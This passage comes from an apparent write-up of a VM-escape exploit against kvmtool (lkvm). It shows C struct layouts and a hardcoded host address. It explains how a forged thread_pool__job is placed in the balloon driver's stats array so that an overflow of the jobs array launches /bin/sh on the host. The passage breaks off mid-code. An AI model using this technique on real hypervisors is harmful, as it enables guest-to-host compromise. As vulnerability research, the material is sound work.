 While downloading the 6.13.4 kernel source for the first time is slow, subsequent
payload compilation and delivery only takes few seconds, and allows running arbitrary
guest kernel code.

### 2. Construct Malicious Job in Guest Virtual Memory

The first stage of the VM escape is constructing the `struct thread_pool__job` payload
in guest virtual (kernel) memory. This payload should, if passed as a parameter
to the `lkvm` `thread_pool__do_job` function, convert the `lkvm` process into a
remote shell.

The later delivery mechanism will copy our payload bytes to the `stats` element
of the global `static struct bln_dev bdev` structure in the `lkvm` host address
space. The `stats` array is normally used to allow the guest balloon driver to
report guest memory statistics to the host, and so effectively provides a few
hundred guest-controlled bytes in the host kvmtool memory.

Examining the `bln_dev` struct shows that the `stats` array happens to sit directly
after the `jobs` array (which is the array whose bounds we overflow), 
so it is an ideal location to drop a payload that the final vulnerability will
launch:
```C
struct bln_dev {
	struct list_head	list;
	struct virtio_device	vdev;

	/* virtio queue */
	struct virt_queue	vqs[NUM_VIRT_QUEUES];
	struct thread_pool__job	jobs[NUM_VIRT_QUEUES];

	// offset of stats into struct bln_dev: 0x268
	struct virtio_balloon_stat stats[VIRTIO_BALLOON_S_NR];
	struct virtio_balloon_stat *cur_stat;
	u32        	cur_stat_head;
	u16        	stat_count;
	int        	stat_waitfd;

	struct virtio_balloon_config config;
};

// &bdev = 0x052E960
static struct bln_dev bdev;
```

Since the `lkvm` binary does not have PIE, we can statically retrieve the address
of `bdev`, `&bdev = 0x052E960`. We can also find the offset of the `stats` array
into the `bln_dev` struct (`0x268` bytes) and the maximum size of the array
(`0x82=130d` bytes).

Knowing these values and the address of a function `virtio_net_exec_script(char *script, char *tag)`
that wraps a call to `execve`, we can construct a payload that shadows the `thread_pool__job`
struct from `kvmtool` to launch `"/bin/sh"`:
```C
typedef void (*kvm_thread_callback_fn_t)(void *kvm, void *data);

// Mirrors struct thread_pool__job struct from kvmtool, with additional 8 bytes for "/bin/sh"
struct thread_pool__job
{
	kvm_thread_callback_fn_t callback; 		// Function pointer: virtio_net_exec_script(char *script, char *tag)	[8 bytes]
	void *kvm;                           	// First argument: pointer to arg_str that holds "/bin/sh"             	[8 bytes]
	void *data;                           	// Second argument: NULL                                             	[8 bytes]       	 

```